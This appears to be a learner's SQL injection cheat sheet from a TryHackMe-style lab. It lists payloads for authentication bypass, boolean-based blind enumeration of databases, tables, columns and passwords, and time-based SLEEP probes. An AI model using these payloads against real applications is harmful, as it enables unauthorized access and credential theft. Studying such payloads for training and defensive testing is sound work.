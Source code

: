💉 **INJECTION**  💉

<br>** Boolean conditions:** OR 1=1 and OR 1=2</br>

  # Authentication Bypass

  - ' OR 1=1;--
  -   -select * from users where username='%username%' and password='%password%' LIMIT 1;
  -   select * from users where username='' and password='' OR 1=1;

  # Boolean Based
--->  💉   **https://website.thm/checkuser?username=admin**
  - select * from users where username = '%username%' LIMIT 1;
  - admin123' UNION SELECT 1;--
  - admin123' UNION SELECT 1,2,3;--
  - admin123' UNION SELECT 1,2,3 where database() like '%';--
  - admin123' UNION SELECT 1,2,3 where database() like 's%';--
  - admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
  - admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
  - admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
  - admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
  - admin123' UNION SELECT 1,2,3 from users where username like 'a%
  - admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%



  # Time Based

  - admin123' UNION SELECT SLEEP(5);--
  - admin123' UNION SELECT SLEEP(5),2;--
  - referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

    
